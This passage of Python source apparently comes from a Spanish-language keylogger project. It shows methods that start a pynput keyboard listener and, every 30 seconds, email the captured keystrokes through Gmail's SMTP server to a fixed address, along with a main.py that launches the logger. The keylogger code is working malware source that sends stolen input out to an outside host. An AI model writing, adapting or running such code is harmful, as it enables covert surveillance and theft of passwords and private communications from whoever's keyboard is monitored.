 ```python
    def send_email(self, subject, body, sender, recipients, password):
        msg = MIMEText(body)
        msg['Subject'] = subject
        msg['From'] = sender
        msg['To'] = ', '.join(recipients)
        with smtplib.SMTP_SSL('smtp.gmail.com', 465) as smtp_server:
           smtp_server.login(sender, password)
           smtp_server.sendmail(sender, recipients, msg.as_string())
        print(f"\n¡Mensaje enviado!\n")

    def report(self):
        email_body = "[+] El Keylogger se ha iniciado" if self.is_first_run else self.log
        self.send_email(
            "Keylogger_report",
            email_body,
            "[REDACTED_EMAIL]",
            ["[REDACTED_EMAIL]"],
            "[REDACTED_PASSWORD]"
        )
        self.log = ""
        if self.is_first_run:
            self.is_first_run = False
        if not self.request_shutdown:
            self.timer = threading.Timer(30, self.report)
            self.timer.start()

    def shutdown(self):
        self.request_shutdown = True
        if self.timer:
            self.timer.cancel()

    def start(self):
        keyboard_listener = pynput.keyboard.Listener(on_press=self.pressed_key)
        with keyboard_listener:
            self.report()
            keyboard_listener.join()
```

**Archivo:** `main.py`

```python
#!/usr/bin/env python3
from keylogger_v4 import Keylogger
from termcolor import colored
import signal, sys

def def_handler(sig, frame):
    print(colored(f"\n[!] Saliendo...\n", 'red'))
    my_keylogger.shutdown()
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

if __name__ == '__main__':
    my_keylogger = Keylogger()
    my_keylogger.start()
```
